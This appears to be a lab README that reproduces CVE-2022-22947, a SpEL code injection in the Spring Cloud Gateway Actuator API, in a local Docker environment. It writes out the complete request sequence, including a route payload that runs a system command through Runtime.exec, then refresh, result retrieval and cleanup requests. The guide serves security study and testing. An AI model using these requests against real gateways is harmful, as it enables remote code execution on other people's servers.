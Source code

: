 # Spring Cloud Gateway Actuator API SpEL Code Injection (CVE-2022-22947)

[中文版本(Chinese version)](README.zh-cn.md)

Spring Cloud Gateway provides a library for building an API Gateway on top of Spring WebFlux.

Applications using Spring Cloud Gateway in the version prior to 3.1.0 and 3.0.6, are vulnerable to a code injection attack when the Gateway Actuator endpoint is enabled, exposed and unsecured. A remote attacker could make a maliciously crafted request that could allow arbitrary remote execution on the remote host.

References:

- <https://tanzu.vmware.com/security/cve-2022-22947>
- <https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/>

## Vulnerability Environment

Execute the following command to start a server that uses Spring Cloud Gateway 3.1.0:

```
docker compose up -d
```

After server is started, browse the `http://your-ip:8080` to see an example page.

## Vulnerability Reproduce

Firstly, send the following request to add a router which contains an evil SpEL expression:

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```

![](1.png)

Secondly, refresh the gateway. The SpEL expression will be executed in this step:

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](2.png)

Thirdly, send the following request to retrieve the result:

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](3.png)

Afterward, send a DELETE request to remove our evil router:

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

![](4.png)

Finally, refresh the gateway again:

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```
